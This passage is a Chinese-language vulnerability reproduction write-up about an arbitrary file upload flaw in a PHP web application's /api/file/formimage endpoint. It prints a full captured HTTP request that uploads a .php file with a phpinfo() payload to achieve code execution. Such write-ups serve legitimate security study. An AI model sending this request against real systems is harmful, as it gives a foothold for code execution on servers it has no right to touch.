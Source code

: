 一路安装即可

## 漏洞复现

触发点：

[![](assets/1706958957-83e84c2d3bf5c5a87b43db83b2e1822b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126172435-b89bb798-bc2c-1.png)

抓包

```bash
POST /api/file/formimage HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
token: xxxx
Content-Type: multipart/form-data; boundary=---------------------------348900489633202294591557761619
Content-Length: 250
Origin: http://127.0.0.1:8000
Connection: close
Referer: http://127.0.0.1:8000/mobile/pages/bundle/user_profile/user_profile
Cookie: PHPSESSID=xxxx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------348900489633202294591557761619
Content-Disposition: form-data; name="file"; filename="a.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------348900489633202294591557761619--
```
